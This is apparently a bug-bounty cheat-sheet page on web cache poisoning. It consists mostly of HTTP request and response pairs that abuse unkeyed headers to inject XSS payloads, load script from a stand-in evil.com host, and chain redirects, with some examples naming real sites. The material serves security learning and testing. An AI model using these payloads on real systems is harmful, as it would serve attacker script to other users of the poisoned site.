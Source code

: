 ## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Web%20Cache%20Poisoning.md#introduction)

The objective of web cache poisoning is to send a request that causes a harmful response that gets saved in the cache and served to other users.

## Where to find

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Web%20Cache%20Poisoning.md#where-to-find)

`-`

## How to exploit

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Web%20Cache%20Poisoning.md#how-to-exploit)

1. Basic poisoning

```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: evil.com
```

The response is

```
HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<img href="https://evil.com/a.png" />
```

> Or you can input XSS payloads

```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: a.\"><script>alert(1)</script>
```

The response is

```
HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<img href="https://a.\"><script>alert(1)</script>a.png" />
```

2. Seizing the Cache

```
GET / HTTP/1.1
Host: unity3d.com
X-Host: evil.com
```

The response is

```
HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
…
<script src="https://evil.com/x.js">
</script>
```

3. Selective poisoning

```
GET / HTTP/1.1
Host: redacted.com
User-Agent: Mozilla/5.0 (<snip> Firefox/60.0)
X-Forwarded-Host: a"><iframe onload=alert(1)>
```

The response is

```
HTTP/1.1 200 OK
X-Served-By: cache-lhr6335-LHR
Vary: User-Agent, Accept-Encoding
…
<link rel="canonical" href="https://a">a<iframe onload=alert(1)>
```

4. Chaining Unkeyed Inputs

- First step

```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Host: xyz
```

The response is

```
HTTP/1.1 200 OK
Set-Cookie: locale=en; domain=xyz
```

- Second step

```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Scheme: nothttps
```

The response is

```
HTTP/1.1 301 Moved Permanently
Location: https://redacted.net
```

- Third step

```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Host: attacker.com
X-Forwarded-Scheme: nothttps
```

The response is

```
HTTP/1.1 301 Moved Permanently
Location: https://attacker.com/en
```

5. Route Poisoning

```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Server: evil
```

The response is

```
HTTP/1.1 404 Not Found
CF-Cache-Status: MISS
...
<title>HubSpot - Page not found</title>
<p>The domain canary does not exist in our system.</p>
```

To exploit this, we need to go to hubspot.com, register ourselves as a HubSpot client, place a payload on our HubSpot page, and then finally trick HubSpot into serving this response on goodhire.com

```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Host: portswigger-labs-4223616.hs-sites.com
```

The response is

```
HTTP/1.1 200 OK
…
<script>alert(document.domain)</script>
```

6. Hidden Route Poisoning

```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: evil
```

The response is

```
HTTP/1.1 302 Found
Location: https://ghost.org/fail/
```

When a user first registers a blog with Ghost, it issues them with a unique subdomain under ghost.io. Once a blog is up and running, the user can define an arbitrary custom domain like blog.cloudflare.com. If a user has defined a custom domain, their ghost.io subdomain will simply redirect to it:

```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: noshandnibble.ghost.io
```

The response is

```
HTTP/1.1 302 Found
Location: http://noshandnibble.blog/
```

## References

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Web%20Cache%20Poisoning.md#references)

- [Portswigger](https://portswigger.net/research/practical-web-cache-poisoning)


